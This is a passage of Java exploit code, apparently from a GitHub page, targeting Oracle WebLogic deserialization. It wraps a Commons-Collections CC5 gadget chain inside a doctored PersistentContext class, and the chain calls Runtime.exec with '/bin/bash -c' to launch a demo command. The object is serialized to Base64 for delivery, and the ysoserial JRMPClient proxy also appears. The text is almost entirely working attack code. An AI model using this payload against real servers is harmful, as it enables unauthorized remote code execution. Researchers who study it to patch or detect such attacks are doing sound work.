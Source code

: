 UnicastRef(new LiveRef(id, te, false));        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);        Registry proxy = (Registry)Proxy.newProxyInstance(ysoserial.payloads.JRMPClient.class.getClassLoader(), new Class[]{Registry.class}, obj);        return proxy;    }    public static void main(String[] args) throws Exception {        System.setProperty("com.bea.core.internal.client","true");        PersistentContext pc = new PersistentContext(null,null,null,null,null, POC.getObject());        ByteArrayOutputStream fout = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fout);        objectOutputStream.writeObject(pc);        objectOutputStream.close();        System.out.println(Base64.getEncoder().encodeToString(fout.toByteArray()));    }}//cc5 pocimport org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import javax.management.BadAttributeValueExpException;import java.lang.reflect.Field;import java.util.HashMap;import java.util.Map;public class POC {    public static Object getObject() throws Exception {        String enableUnsafeSerialization = System.getProperty("org.apache.commons.collections.enableUnsafeSerialization");        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");//        String cmd = "touch /tmp/success123";        String cmd = "open -a Calculator.app";        Transformer[] tarray = new Transformer[]                {                        new ConstantTransformer(Runtime.class),                        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),                        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),                        new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/bash", "-c", cmd}})                };        Transformer chainedTransformer = new ChainedTransformer(tarray);        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "a");        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);        setValue(badAttributeValueExpException, "val", tiedMapEntry);        return badAttributeValueExpException;    }    public static void main(String[] args) throws Exception {    }    public static void setValue(Object obj, String name, Object value) throws Exception {        Field field = obj.getClass().getDeclaredField(name);        field.setAccessible(true);        field.set(obj, value);    }}//PersistentContextpackage weblogic.wsee.jaxws.persistence;import com.sun.istack.NotNull;import com.sun.istack.Nullable;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.IOException;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.io.Serializable;import java.security.AccessController;import java.util.Map;import java.util.Set;import java.util.concurrent.locks.ReentrantReadWriteLock;import weblogic.kernel.KernelStatus;import weblogic.security.acl.internal.AuthenticatedSubject;import weblogic.security.service.PrivilegedActions;import weblogic.security.service.SecurityServiceManager;import weblogic.security.subject.SubjectManager;import weblogic.wsee.WseeCoreLogger;import weblogic.wsee.persistence.AbstractStorable;//import weblogic.wsee.server.EncryptionUtil;import weblogic.wsee.jaxws.persistence.EncryptionUtil;public class PersistentContext extends AbstractStorable {    private static final long serialVersionUID = 1L;    private static final AuthenticatedSubject KERNEL_ID = (AuthenticatedSubject)AccessController.doPrivileged(PrivilegedActions.getKernelIdentityAction());    private transient ReentrantReadWriteLock _lock;    private Map<String, Serializable> _propertyMap;    private Set<String> _propBagClassNames;    private Map<String, Serializable> _contextPropertyMap;    private Map<String, Serializable> _invocationPropertyMap;    private AuthenticatedSubject _subject;    private PersistentContext.State _state;    private Object evil;    public static PersistentContextStore getStoreMap(String var0) {        try {            return PersistentContextStore.getStore(var0);        } catch (Exception var2) {            throw new RuntimeException(var2.toString(), var2);        }    }    private static AuthenticatedSubject getCurrentSubject() {        AuthenticatedSubject var0 = SecurityServiceManager.getCurrentSubject(KERNEL_ID);        return var0;    }    private void writeObject(ObjectOutputStream var1) throws IOException {        try {            this._lock.readLock().lock();            var1.writeObject(this._propertyMap);            var1.writeObject(this._propBagClassNames);            var1.writeObject(this._contextPropertyMap);            var1.writeObject(this._invocationPropertyMap);            var1.writeObject(this._state);            this.writeSubject(var1);        } finally {            this._lock.readLock().unlock();        }    }    private void writeSubject(ObjectOutputStream var1) throws IOException {        ByteArrayOutputStream var2 = new ByteArrayOutputStream();        ObjectOutputStream var3 = new ObjectOutputStream(var2);        //if (SubjectManager.getSubjectManager().isKernelIdentity(this._subject)) {        //    AuthenticatedSubject var4 = (AuthenticatedSubject)SubjectManager.getSubjectManager().getAnonymousSubject();        //    var3.writeObject(var4);        //} else {        //
